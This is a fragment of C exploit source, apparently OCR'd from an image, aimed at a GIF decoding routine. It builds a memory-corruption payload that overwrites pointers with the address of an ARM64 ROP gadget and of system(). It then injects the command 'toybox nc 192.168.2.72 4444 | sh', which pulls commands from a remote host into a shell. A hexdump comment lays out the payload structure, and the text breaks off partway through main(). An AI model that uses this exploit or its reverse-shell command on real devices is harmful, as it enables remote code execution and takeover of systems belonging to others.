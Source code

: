 ```c
    00000010: 0000 0000 0000 0000 4242 4242 4242 4242  ........BBBBBBBB
    00000020: 746f 7962 6f78 206e 6320 3139 322e 3136  toybox nc 192.16
    00000030: 382e 322e 3732 2034 3434 3420 7c20 7368  8.2.72 4444 | sh
    00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000080: 4141 4141 4141 4141 eeff                 AAAAAAAA..

    Over-write AAAAAAAA with address of gadget 1
    Over-write BBBBBBBB with address of system() function

    Gadget 1
    ldr x8, [x19, #0x18]
    add x0, x19, #0x20
    blr x8
*/
    unsigned char hexData[138] = {
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0xEF, 0xBE, 0xAD, 0xDE, 0xEE, 0xFF
    };
    memcpy(buffer, hexData, sizeof(hexData));

    /*
    Gadget g1:
        ldr x8, [x19, #0x18]
        add x0, x19, #0x20
        blr x8
    */
    size_t g1_loc = 0x7cb81f0954;
    memcpy(buffer + 128, &g1_loc, 8);

    size_t system_loc = 0x7cb602ce84;
    memcpy(buffer + 24, &system_loc, 8);

    char *command = "toybox nc 192.168.2.72 4444 | sh";
    memcpy(buffer + 32, command, strlen(command));

    return sizeof(hexData);
};

int main(int argc, char *argv[]) {
    GifFilePrivateType Private = {
            .Buf[0] = 0,
            .BitsPerPixel = 8,
            .ClearCode = 256,
            .EOFCode = 257,
            .RunningCode = 258,
```